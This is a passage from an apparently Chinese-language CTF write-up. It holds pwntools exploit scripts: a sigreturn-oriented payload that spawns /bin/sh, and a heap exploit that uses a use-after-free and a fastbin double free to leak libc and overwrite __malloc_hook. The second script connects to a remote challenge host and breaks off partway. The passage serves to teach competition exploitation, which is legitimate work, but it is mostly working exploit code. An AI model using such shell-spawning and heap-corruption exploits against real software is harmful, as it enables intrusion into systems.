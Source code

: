 ```python
payload=payload.ljust(0x100,b'\x00')+p64(pop_4_jmp)+p64(start)+p64(0)+p64(pop_4_jmp)+p64(bss)
s(payload)
io.recvuntil(b'Thank you for your feedback!')
payload =b'/bin/sh\x00'
#======================================================================================
#bss:
f=SigreturnFrame()
f.rax=0x3b
f.rdi=bss-8
f.rsi=0
f.rdx=0
f.rip=0x401163
payload+=p64(bss+0x110-1)+p64(bss+0x118)+p64(0xFFFFFFFFFFFFFFF2)
payload+=bytes(f)
payload =payload.ljust(0x108,b'\x00') 
payload+=p64(0x401024)+p64(0x401163)
io.send(payload)
io.interactive()
```

## Heap |FINISHED - 01

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918565.png)

菜单题,其中delet存在uaf漏洞,结合这道题是2.23版本的,我们可以fastbins\_attack

但是这道题没有show选项,这就导致leak\_libc成为了难题

我们唯一可以获得回显的地方是在rename处,name是个存在于bss上的变量,我们可以读写上面的数据,而且name的长度足足有0xd0!

那我们能不能先fastbins\_attack将name申请出来,然后rename修改name的chunk大小,再free(name),这样main\_arena就会被挂到name上,此时我们就可以获得libc\_base的回显了

然后就是最简单的攻击\_\_malloc\_hook,写为ogg,用malloc触发就可以了

```python
from pwn import *
#io=process('./pwn')
io=remote("node1.tgctf.woooo.tech",30177)
libc=ELF('./libc.so.6')
Name=0x6020C0
#context.log_level='debug'
def add(size,payload=b'01'):
    io.sendlineafter(b"> ",b"1")
    io.sendlineafter(b"> ",str(size).encode())
    io.sendafter(b"> ",payload)
def free(Id):
    io.sendlineafter(b"> ",b"2")
    io.sendlineafter(b"> ",str(Id).encode())
def name(payload):
    io.sendlineafter(b"> ",b"3")
    io.sendafter(b"> ",payload)
def bug():
    gdb.attach(io)
io.sendafter(b"> ",b"01")
#=====================================================================
add(0x60,b'01')#0
add(0x60,b'01')#1
payload=p64(0)+p64(0x71)
name(payload)
free(0)
free(1)
free(0)
add(0x60,p64(Name))
add(0x60)#2
```